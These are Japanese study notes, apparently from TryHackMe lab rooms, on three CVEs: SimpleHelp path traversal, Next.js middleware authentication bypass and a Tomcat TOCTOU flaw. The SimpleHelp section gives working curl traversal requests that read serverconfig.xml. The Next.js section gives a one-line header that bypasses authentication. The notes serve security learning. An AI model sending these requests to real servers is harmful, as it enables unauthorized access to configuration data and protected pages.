 ## CVE-2024-57727 (SimpleHelp)

https://tryhackme.com/room/simplehelpcve202457727

- SimpleHelp <= v5.5.7
- パストラバーサルの脆弱性
- この他に、CVE-2024-57726、CVE-2024-57728 もある

```sh
git clone https://github.com/imjdl/CVE-2024-57727
cd CVE-2024-57727

# 脆弱性があるかどうか確認
python3 poc.py http://MACHINE_IP
```

Windows 用

```sh
# --path-as-is により、.. が正規化されなくなる
curl --path-as-is http://MACHINE_IP/toolbox-resource/../resource1/../../configuration/serverconfig.xml
```

Linux 用

```sh
# Linuxの場合、resource1 の部分を有効なディレクトリ名にする必要がある
curl --path-as-is http://MACHINE_IP/toolbox-resource/../secmsg/../../configuration/serverconfig.xml
```

secmsg 以外の候補 `alertsdb, backups, branding, history, html, notifications, recordings, remotework, simulations, sslconfig, techprefs, templates, toolbox, toolbox-resources, translations
`

## CVE-2025-29927 (Next.js)

https://tryhackme.com/room/nextjscve202529927

- Next.js < 15.2.3, 14.2.25, 13.5.9, 12.3.5
- ミドルウェアベースの認証バイパスの脆弱性
- HTTP ヘッダーを追加するだけ

```sh
curl -H "x-middleware-subrequest: middleware" http://10.10.234.130:3000/protected
```

## CVE-2024-50379 (Tomcat)

https://tryhackme.com/room/tomcatcve202450379

- Apache Tomcat `11.0.0-M1 ~ 11.0.1`, `10.1.0-M1 ~ 10.1.33`, `9.0.0-M1 ~ 9.0.97`
- Time-of-check-Time-of-use（TOCTOU）脆弱性
- 大文字と小文字を区別しないシステム（Windows, macOS）において、デフォルトサーブレットに書き込み権限がある場合、JSP（Java Server Page）のコンパイル時に TOCTOU 競合状態が発生する。

書き込み権限があるとは、サーバーが PUT や DELETE などの HTTP コマンドを受け入れるように設定されていること。
